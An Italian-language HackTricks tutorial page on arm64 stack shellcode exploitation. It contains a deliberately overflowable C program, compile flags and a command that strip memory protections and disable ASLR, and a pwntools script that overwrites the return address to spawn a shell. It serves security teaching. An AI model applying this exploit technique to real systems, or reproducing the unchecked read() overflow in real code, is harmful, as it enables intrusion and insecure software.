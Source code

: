 # Shellcode dello Stack - arm64

<details>

<summary><strong>Impara l'hacking AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Esperto Red Team AWS di HackTricks)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se desideri vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**Gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

Trova un'introduzione all'arm64 in:

{% content-ref url="../../../macos-hardening/macos-security-and-privilege-escalation/macos-apps-inspecting-debugging-and-fuzzing/arm64-basic-assembly.md" %}
[arm64-basic-assembly.md](../../../macos-hardening/macos-security-and-privilege-escalation/macos-apps-inspecting-debugging-and-fuzzing/arm64-basic-assembly.md)
{% endcontent-ref %}

## Codice&#x20;
```c
#include <stdio.h>
#include <unistd.h>

void vulnerable_function() {
char buffer[64];
read(STDIN_FILENO, buffer, 256); // <-- bof vulnerability
}

int main() {
vulnerable_function();
return 0;
}
```
Compilare senza pie, canary e nx:

{% code overflow="wrap" %}
```bash
clang -o bof bof.c -fno-stack-protector -Wno-format-security -no-pie -z execstack
```
## Nessun ASLR  & Nessun canary - Stack Overflow&#x20;

Per fermare ASLR eseguire:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
Per ottenere l'[**offset del bof controlla questo link**](../ret2win/ret2win-arm64.md#finding-the-offset).

Sfruttare:
```python
from pwn import *

# Load the binary
binary_name = './bof'
elf = context.binary = ELF(binary_name)

# Generate shellcode
shellcode = asm(shellcraft.sh())

# Start the process
p = process(binary_name)

# Offset to return address
offset = 72

# Address in the stack after the return address
ret_address = p64(0xfffffffff1a0)

# Craft the payload
payload = b'A' * offset + ret_address + shellcode

print("Payload length: "+ str(len(payload)))

# Send the payload
p.send(payload)

# Drop to an interactive session
p.interactive()
```
L'unica cosa "complicata" da trovare qui sarebbe l'indirizzo nello stack da chiamare. Nel mio caso ho generato l exploit con l'indirizzo trovato usando gdb, ma poi quando l'ho sfruttato non ha funzionato (perché l'indirizzo dello stack è cambiato leggermente).

Ho aperto il file **`core` generato** (`gdb ./bog ./core`) e ho controllato l'indirizzo reale dell'inizio dello shellcode.
